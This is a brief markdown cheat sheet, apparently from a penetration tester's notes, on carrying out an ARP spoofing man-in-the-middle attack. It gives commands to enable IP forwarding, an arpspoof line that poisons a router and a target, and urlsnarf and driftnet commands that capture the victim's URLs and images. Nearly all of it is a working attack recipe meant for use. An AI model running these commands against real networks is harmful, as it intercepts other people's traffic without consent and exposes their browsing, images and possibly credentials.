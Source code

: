```yaml
---
description: Interception Attack
---
```


# ARP Spoofing

Identify a target by scanning the local network.

### Packet Forwarding

Configure packet forwarding before attempting to ARP spoof.

```bash
#check current status
cat /proc/sys/net/ipv4/ip_forward

#enable packet forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

#disable packet forwarding
echo 0 > /proc/sys/net/ipv4/ip_forward
```

### arpspoof

```bash
#specify the interface, the router and the target 
arpspoof -i wlan0 -t $router $target
```

### Monitor Traffic

Use wireshark, tcpdump or other tools to watch network traffic for goodies.

```bash
#capture all URLS
urlsnarf -i wlan0

#monitor images :)
driftnet -i wlan0
```



